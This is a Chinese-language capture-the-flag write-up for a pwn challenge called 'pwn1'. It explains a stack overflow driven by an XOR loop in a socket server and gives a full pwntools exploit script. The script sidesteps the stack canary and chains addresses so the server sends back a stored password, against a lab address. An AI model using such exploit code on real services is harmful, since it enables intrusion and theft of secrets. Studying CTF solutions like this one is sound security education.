





## 题目名字

	pwn1

## 分值
	
	250

## 类型

	pwn

## 解题思路

首先查看bin文件，发现是一个有一点复杂的文件，有很多的函数放到一个数组里面:

然后我们顺着逻辑往下看，发现本身是一个socket监听的程序，然后会根据我们数的内容进行函数的调用:

我们选择其中一个函数跟入，能够找到其中存在的栈溢出漏洞;

这个地方根据我们输入的字符个数进行异或，然后将异或的第一个数字作为调用函数的下标。

所以如果我们传输的数字长度够长的话，那么循环就会作用在栈上，从而将别的值进行修改:

我们这里选取func_7b进行操作。同时，为了避免修改canary，我们这里在发生异或操作的时候，在canary初填充\0\0\0\0，避免对canary的修改。

最后，我们为了能够让函数返回值能够返回到我们指定的位置上，并且不要不小心将传入的参数内容改了(如果直接使用返回值的话，count修改掉从而出现问题)，我们需要使用a1(也就是我们最初传入的内容)来完成ret跳转，因此我们找到了如下的位置:

最后构造栈大致如下:


具体攻击代码如下:
```python
# -*- coding: utf-8 -*-
import struct, socket
from pwn import *

HOST = '172.16.0.102'
PORT = 24242

DEBUG= 0
if DEBUG:
    ph = process("./rhino")
    context.log_level = "debug"
    context.terminal=['tmux','splitw','-h']
    gdb.attach(ph, "")
else:
    s = socket.socket()
    s.connect((HOST, PORT))

# really return address
first_return_addr = 0x08056AFA
# padding
placeholder = 'xxxx'

gadget_pop_xor = struct.pack('<I', 0x080578f5 ^ first_return_addr)
password_addr = struct.pack('<I', 0x0805F0C0)
socksend_addr = struct.pack('<I', 0x0804884B)
exit_addr = struct.pack('<I', 0x08048670)

def get_payload(counter):
    # xor the counter to get our own counter
    counter_xor = struct.pack('<I', counter ^ 1)
    # składamy payload
    return (
            # return address
            socksend_addr
            # give a standard exit address
            + exit_addr
            # socket fd
            + struct.pack('<I', 4)
            # password address
            + password_addr
            # length to send
            + struct.pack('<I', 256)
            # padding
            + placeholder * 39
            # to avoid change canary
            + '\0\0\0\0'
            # padding
            + placeholder * 3
            # gadget address
            + gadget_pop_xor
            # padding
            + placeholder
            # the counter at argument
            + counter_xor
            )

# first, we get the length of our payload
payload_length = len(get_payload(123))
# then we can genenrate real exp
payload = get_payload(payload_length - 1)
if DEBUG:
    ph.sendline(payload)
    print ph.recv(1024)
else:
    s.send(payload)
    print s.recv(99999)

```
(最后的时候忘记放出elf了求轻拍)